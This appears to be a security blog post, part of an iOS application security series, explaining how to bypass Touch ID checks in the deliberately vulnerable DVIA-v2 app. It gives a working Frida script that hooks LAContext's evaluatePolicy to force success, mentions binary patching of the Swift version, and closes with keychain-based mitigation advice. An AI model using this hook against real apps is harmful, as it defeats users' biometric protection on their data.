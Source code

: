 ```yaml
---
layout: post
title: "iOS Application Security Part 50 - Touch ID Bypass with Frida"
date: 2018-07-26 07:48
comments: true
tags: security 
---
```

In the previous article, we looked at Runtime Manipulation with Frida. In this article, we will look at how we can bypass Touch ID authentication in certain iOS applications using Frida. We will be performing the tests on the swift version of Damn Vulnerable iOS app which can be downloaded from damnvulnerableiosapp.com.

Open the app and navigate under the section Touch/Face ID Bypass

Authentication can be done in multiple ways, and can use different languages (Objective-C or Swift). One of the ways is to use the LAContext class using the Local Authentication framework. The evaluatePolicy:localizedReason:reply: method from the LAContext class presents a dialog to the user which can ask for the user to confirm the action with biometric authentication through their fingerprint. If the method returns success, the relevant action is performed. However, the action that is performed after authentication is in no way correlated with how the authentication was done. There is no way for the iOS app to determine whether the authentication was performed with a valid fingerprint, or whether the method was hooked. The following code snippet from DVIA-v2 shows the implementation (from the file TouchIDAuthentication.m) using the LAContext class.

<!--more-->

<pre>	+(void)authenticateWithTouchID {

	    LAContext *myContext = [[LAContext alloc] init];
	    NSError *authError = nil;
	    NSString *myLocalizedReasonString = @"Please authenticate yourself";

	    if ([myContext canEvaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics error:&authError]) {
	        [myContext evaluatePolicy:LAPolicyDeviceOwnerAuthenticationWithBiometrics
	                  localizedReason:myLocalizedReasonString
	                            reply:^(BOOL success, NSError *error) {
	                                if (success) {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                    [TouchIDAuthentication showAlert:@"Success" withTitle:@"Authentication Successful"];
	                                    });
	                                } else {
	                                    dispatch_async(dispatch_get_main_queue(), ^{
	                                       [TouchIDAuthentication showAlert:@"Error" withTitle:@"Authentication Failed !!"];
	                                    });
	                                }
	                            }];
	    } else {
	        dispatch_async(dispatch_get_main_queue(), ^{
	            [TouchIDAuthentication showAlert:@"Your device doesn't support Touch ID" withTitle:@"Error"];
	        });
	    }
	}

</pre>

It is possible to just hook the evaluatePolicy:localizedReason:reply: method and make it return true. This can be done with the following Frida script.

<pre>	if(ObjC.available) {
		var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
		Interceptor.attach(hook.implementation, {
			onEnter: function(args) {
				var block = new ObjC.Block(args[4]);
				const appCallback = block.implementation;
				block.implementation = function (error,value)  {
					const result = appCallback(1, null);
					return result;
				};
			},
		});
	} 

</pre>

![1]({{site.baseurl}}/images/posts/ios50/1.png)

Now go the Touch/Face ID Bypass -> Objective-C implementation in DVIA-v2 and tap on the fingerprint button.

![2]({{site.baseurl}}/images/posts/ios50/2.PNG)

Now put the incorrect fingerprint. You will see that since the method is hooked, the authentication is successful.

![3]({{site.baseurl}}/images/posts/ios50/3.PNG)

The following function from DVIA-v2 shows the Swift implementation of the same thing. Since this can't be manipulated, it can still be patched and the function flow could be modified to go inside the if loop directly. The patching can be done with Hopper followed by signing with jtool.

<pre>	@IBAction func touchIDTapped(_ sender: Any) {
	        let context = LAContext()
	        var error: NSError?

	        if context.canEvaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, error: &error) {
	            let reason = "Please authenticate yourself"

	            context.evaluatePolicy(.deviceOwnerAuthenticationWithBiometrics, localizedReason: reason) {
	                [unowned self] success, authenticationError in

	                DispatchQueue.main.async {
	                    if success {
	                        DVIAUtilities.showAlert(title: "Success", message: "Authentication Successful", viewController: self)
	                    } else {
	                        DVIAUtilities.showAlert(title: "Error", message: "Authentication Failed", viewController: self)
	                    }
	                }
	            }
	        } else {
	           DVIAUtilities.showAlert(title: "Touch ID not available", message: "Your device doesn't support Touch ID or you haven't configured Touch ID authentication on your device", viewController: self)
	        }
	    }
</pre>

In general, the vulnerability arises from the fact that the authentication and the resulting action after a successful authentication are independent of each other. A better way to securely save the data would be to save the data in the keychain and protect it with appropriate keychain attributes (for e.g ksecattraccessiblewhenpasscodesetthisdeviceonly), which require touch ID or device passcode authentication to access the keychain content. This will make it harder for the attacker to get the data since to gather the information from the keychain the user would actually have to authenticate with Touch ID or enter the passcode, depending on which access control he applied, and also the logic is managed by the OS and not the application. Even though biometric authentication via the Local Authentication framework is easy to implement, it is not recommended to be used for sensitive applications, such as banking or other financial apps.

In the next article, we will look at dumping unencrypted IPAs from the device and dynamic instrumentation on a non-jailbroken device using Frida.